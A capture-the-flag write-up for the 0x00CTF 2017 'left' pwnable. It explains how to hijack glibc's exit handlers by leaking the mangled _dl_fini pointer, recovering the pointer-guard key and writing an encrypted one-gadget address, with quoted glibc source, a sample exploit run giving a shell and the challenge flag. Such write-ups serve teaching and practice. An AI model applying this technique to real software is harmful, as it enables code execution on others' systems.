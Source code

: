 # left - 0x00CTF 2017

First at all execute `file` command on the binary (the libc is already provided by the organizers of the CTF)
```bash
$ file guessme
guessme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92b1d84ee22b7c92dc80fac971bdc7f6cd0e3672, stripped
```

And [checksec](https://github.com/slimm609/checksec.sh)
```bash
$ ./checksec --file ../pwning/0x00CTF/left/left
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	../pwning/0x00CTF/left/left
```

This was a 250 pts pwnable challange, the hardest of the competition. Unfortunately i solved this challenge only two hours later the end of the competition. The challange was funny, in a nutshell:
1. The binary prints the address of `printf` function
2. We can leak 8 bytes from any memory location
3. We can write 8 bytes wherever we want
4. The binary calls `exit`.

![image](binary.png)

I tried really a lot of exploits: 
1. overwrite an entry in the got. Nope, full RELRO :P
2. use the `atexit` pointers. Nope, read only
3. use the `__free_hook` pointers. The `exit` function in certain cases calls the `free`, so i tried for few hours to follow this strategy but without success. 

I was becoming crazy, but with my teammate @[ret2libc](https://github.com/ret2libc) we had a look at the libc code and found another way to exploit it. And i'll try to explain now what happened. 

The `exit` function calls `__run_exit_handlers` function, and this is its implementation

```C
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
	{
	  const struct exit_function *const f =
	    &cur->fns[--cur->idx];
	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      onfct (status, f->func.on.arg);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      atfct ();
	      break;
	    case ef_cxa:
	      cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      cxafct (f->func.cxa.arg, status);
	      break;
	    }
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

A parameter of the `__run_exit_handlers` is a `struct exit_function_list **listp`. The libc initializes a static struct `initial` 

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

then the libc uses these two functions to add an internal `atexit` function to be called when the program ends

```C
int
attribute_hidden
__internal_atexit (void (*func) (void *), void *arg, void *d,
		   struct exit_function_list **listp)
{
  struct exit_function *new = __new_exitfn (listp);

  if (new == NULL)
    return -1;

#ifdef PTR_MANGLE
  PTR_MANGLE (func);
#endif
  new->func.cxa.fn = (void (*) (void *, int)) func;
  new->func.cxa.arg = arg;
  new->func.cxa.dso_handle = d;
  atomic_write_barrier ();
  new->flavor = ef_cxa;
  return 0;
}

int
__cxa_atexit (void (*func) (void *), void *arg, void *d)
{
  return __internal_atexit (func, arg, d, &__exit_funcs);
}
libc_hidden_def (__cxa_atexit)
```
The static struct `__exit_funcs` (i.e. `initial`) is extremely important, because if we can write an address of a function to be called here we would win :)
Note that the pointer added to the list is encrypted using a `ror` and `xor` with a random key. The value is then decrypted at run time.
This is the implementation of `PTR_MANGLE` and `PTR_DEMANGLE`

```C
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xorl %gs:POINTER_GUARD, reg;		      \
				roll $9, reg
#  define PTR_DEMANGLE(reg)	rorl $9, reg;				      \
				xorl %gs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xorl %%gs:%c2, %0\n"		      \
				     "roll $9, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("rorl $9, %0\n"			      \
				     "xorl %%gs:%c2, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
# endif
```

Now have a look at the `exit` implementation

```C

void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true);
}
libc_hidden_def (exit)
```

It uses `&__exit_funcs`, i.e `&initial`! In the file `libc-start.c` you can figure out that it uses the function `__cxa_atexit` to add a function: `_dl_fini`: 

```C
/* Register the destructor of the dynamic linker if there is any.  */
  if (__glibc_likely (rtld_fini != NULL))
    __cxa_atexit ((void (*) (void *)) rtld_fini, NULL, NULL);

#ifndef SHARED
  /* Call the initializer of the libc.  This is only needed here if we
     are compiling for the static library in which case we haven't
     run the constructors in `_dl_start_user'.  */
  __libc_init_first (argc, argv, __environ);

  /* Register the destructor of the program, if any.  */
  if (fini)
    __cxa_atexit ((void (*) (void *)) fini, NULL, NULL);
``` 

What we can do is: 
1. We have the leak of the libc location. We can find the address of the magic gadget, the address of `initial` structure and everithing we need
2. leak the value of the encrypted pointer `_dl_fini_enc`
3. get the secret key (working with 64 bits) with  `rol(_dl_fini_enc, 0x11) ^ _dl_fini_address`.
4. overwrite the pointer `_dl_fini_enc` with the encrypted magic gadget address calculated with `rol((magic_addr) ^ (key), 0x11, 64 )`
5. WIN!

```bash
$ python exploit.py 159.203.116.12 7777
[+] libc address: 0x7fa70c2f0000
[+] key: 0xab85f3272361ce8eL
[+] writing at: 0x7fa70c6b5c58
[+] write value: 0x19005ea539c9570bL
[+] interactive

id
uid=1000(left) gid=1000(left) groups=1000(left)
cat /home/left/flag.txt
0x00CTF{exPL0it1ng__EXit_FUNkz_LikE_4b0sZ!}
```

Find the binary [here](left) (and the related [libc](libc-2.23.so)), the full exploit [here](exploit.py)! I really enjoyed this challenge! 
